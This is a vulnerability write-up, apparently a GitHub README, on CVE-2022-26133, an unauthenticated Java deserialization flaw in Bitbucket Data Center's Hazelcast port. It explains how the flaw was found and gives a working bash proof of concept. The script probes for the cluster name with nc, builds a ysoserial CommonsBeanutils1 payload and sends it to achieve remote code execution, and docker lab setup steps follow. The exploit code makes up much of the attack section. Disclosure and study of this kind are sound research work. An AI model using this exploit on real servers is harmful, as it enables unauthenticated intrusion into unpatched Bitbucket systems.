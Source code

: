 ## Introduction


This write-up provides an overview of CVE-2022-26133 - Bitbucket Data Center - Java Deserialization Vulnerability [[1]](https://confluence.atlassian.com/security/multiple-products-security-advisory-hazelcast-vulnerable-to-remote-code-execution-cve-2016-10750-1116292387.html). A remote, unauthenticated attacker can exploit this vulnerability by sending a crafted packet to the Hazelcast port and achieve Remote Code Execution (RCE) on the Bitbucket Data Center.  This vulnerability is similar to CVE-2016-10750 [[2]](https://github.com/hazelcast/hazelcast/issues/8024) but is specific to Bitbucket. 



## TL;DR

Bitbucket Data Center makes use of Hazelcast [[3]](https://github.com/hazelcast/hazelcast) for in-memory data caching; by default port 5701 is used for Hazelcast. If an attacker could reach the Hazelcast port of a Bitbucket instance with a crafted network packet Bitbucket responds with the Cluster name of the Data Center Instance. If this cluster name is appended with a serialized payload [[4]](https://github.com/frohoff/ysoserial) and sent again to the Hazelcast port, the payload is deserialized at the cluster node leading to remote code execution on the node. A typical packet structure is as follows:


### Packet Structure of the Payload

```shell

--------------------------------------------------------------------------------------------
|                      |                   |                     |                         |
| size of group name   | group name of     | 0xFF 0xFF 0xFF 0x9C | serialized paylod       |
|       (4 bytes)      | Bitbucket cluster |                     | (e.g CommonsBeanutils1) |
--------------------------------------------------------------------------------------------
```

### POC

```shell

#!/usr/bin/env bash

BITBUCKET_IP=${1:-'127.0.0.1'}
BITBUCKET_HAZELCAST_PORT=${2:-'5701'}
YSOSERIAL_JAR=${3:-'/home/snowyowl/workspace/tools/ysoserial/ysoserial-master-SNAPSHOT.jar'}

# send a dummy probe packet to retrieve the cluster name
# e.g the below sets the length as 2 bytes and sends a dummy 2 bytes
printf "\x00\x00\x00\x02\x73\x61" | nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT" > cluster-name.bin

# generate the serialized payload using ysoserial with the CommonsBeanutils1 gadget.
java -jar "$YSOSERIAL_JAR" CommonsBeanutils1 xcalc > CommonsBeanutils1.bin

# append header packets to the serialized payload, this is required for the hazelcast to correctly deserialize the payload
# create the final payload by joining the cluster name and the serialized payload with the header.
printf "\xFF\xFF\xFF\x9C" | cat cluster-name.bin - CommonsBeanutils1.bin > payload.bin

# send the payload to the bitbucket cluster
nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT" < payload.bin

```


### The Vulnerability

The detection of the vulnerability primarily involved a white box testing approach. As detailed in the Hazelcast issue report [[2]](https://github.com/hazelcast/hazelcast/issues/8024), CVE-2016-10750 primarily involved modifying the Hazelcast cluster join procedure to include a serialized payload (e.g CommonsBeanutils1). However this approach was failing on Bitbucket Data Center. 

To further analyze the issue the Bitbucket jar files was decompield and source code was analyzed in conjunction to the Hazelcast reference manual [[5]](https://docs.hazelcast.com/imdg/3.12/). A rough sequence diagram was created along the way to better understand how the JoinRequest was processed inside the Bitbucket node. 

It has been observed that hazelcast join sequence is intercepted by a com.atlassian.stash.internal.cluster.ClusterJoinSocketInterceptor class that implements com.hazelcast.nio.MemberSocketInterceptor interface [[5]](https://docs.hazelcast.com/imdg/3.12/security/socket-interceptor). The ClusterJoinSocketInterceptor relied on com.atlassian.stash.internal.cluster.SharedSecretClusterAuthenticator class to perform a basic authentication using cluster name and password that was set during the Bitbucket Data Center Installation. To restate it differently a custom network authentication protocol has been implemented inside SharedSecretClusterAuthenticator on top of the Hazelcast JoinRequest. So initally it seemed that the exploit was closed on the Bitbucket end.


Inspired by the excellent research of GHSL researcher Man Yue Mo [[6]](https://securitylab.github.com/research/in-memory-data-grid-vulnerabilities/) a second round of manual code review was performed and a readObject method was noticed inside the SharedSecretClusterAuthenticator. The runMutualChallengeResponse method inside the SharedSecretClusterAuthenticator was invoking a receiveObject that was in-turn using a readObject method on the raw input stream from the Hazelcast port. It would have been a lot faster, if CodeQL could have been used for this analysis however only the decompileld source was available and using CodeQL without building the source code seemed quite challenging.  


![runMutualChallengeResponse](images/runMutualChallengeResponse.png)

To reach this execution path the GroupName (cluster name) of the Bitbucket node was required. Luckily this was directly accessible by sending a probe to the HazelCast port.


![verifyGroupName](images/verifyGroupName.png)

 The probe is a nothing but a basic TCP packet with the data bytes set as per the below structure.

```shell
------------------------------------------------
|                          |                   |
| Size of following field  |    random bytes   |
|      (4 bytes )          |    (size bytes)   |
------------------------------------------------

```

Bitbucket server responds with the groupname of the cluster prepended with the length (in bytes) of the group name. This response packet can then be used directly in crafting the final payload.

```shell

# send a dummy probe packet to retrieve the cluster name
# e.g the below sets the length as 2 bytes and sends  2 bytes (don't care - dummy bytes)
printf "\x00\x00\x00\x02\x73\x61" | nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT"

```






### Exploit

1. Use the below commands to create Bitbucket Data Center cluster on docker

```shell

git clone https://github.com/snowyyowl/writeups.git

cd CVE-2022-26133/scripts

# setup the first node
./setup-bitbucket-docker.sh --bitbucket-docker-base-port 3000  --bitbucket-version 7.20.0 -p bitbucket-v7-20  --bitbucket-setup-base-node

# complete the setup in the Web GUI and then stop the bitbucket instance (Ctrl + C )

# allow xauth from docker so that the calc can pop-up
xhost + 

# setup the subsequent node and the loadbalancer
./setup-bitbucket-docker.sh --bitbucket-docker-base-port 3000  --bitbucket-version 7.20.0 -p bitbucket-v7-20 

``` 

2. Run the POC script

```shell

./bitbucket-hazelcast-rce-poc.sh 

# update the port to Hazelcast port on the second node (e.g 3060) to get RCE on the second node

```

![hazelcast-rce](images/bitbucket-hazelcast-rce-poc.png)


#### Probe Packet to Query Cluster Name

![wireshark-query-bitbucket-cluster-name](images/wireshark-query-bitbucket-cluster-name.png)


#### Response Packet from Bitbucket

![wireshark-bitbucket-response-cluster-name](images/wireshark-bitbucket-response-cluster-name.png)


#### Payload to trigger RCE

![wireshark-bitbucket-payload](images/wireshark-bitbucket-payload.png)


The full wireshark capture may be downloaded from [here](wireshark/bitbucket-hazelcast-rce-wireshark.pcapng)

### Call Chain

![call-chain](images/BitBucketDeserializationCallChain.png)

## References
1. [Multiple Products Security Advisory - Hazelcast Vulnerable To Remote Code Execution](https://confluence.atlassian.com/security/multiple-products-security-advisory-hazelcast-vulnerable-to-remote-code-execution-cve-2016-10750-1116292387.html)
1. [Hazelcast is vulnerable to untrusted deserialization remote code execution #8024](https://github.com/hazelcast/hazelcast/issues/8024)
1. [Hazelcast](https://github.com/hazelcast/hazelcast)
1. [ysoserial, Frohoff et al.](https://github.com/frohoff/ysoserial)
1. [Hazelcast Reference Manual](https://docs.hazelcast.com/imdg/3.12/)
1. [In-Memory Data Grid Applications: Finding Common Java Deserialization Vulnerabilities with CodeQL, Man Yue Mo](https://securitylab.github.com/research/in-memory-data-grid-vulnerabilities/)

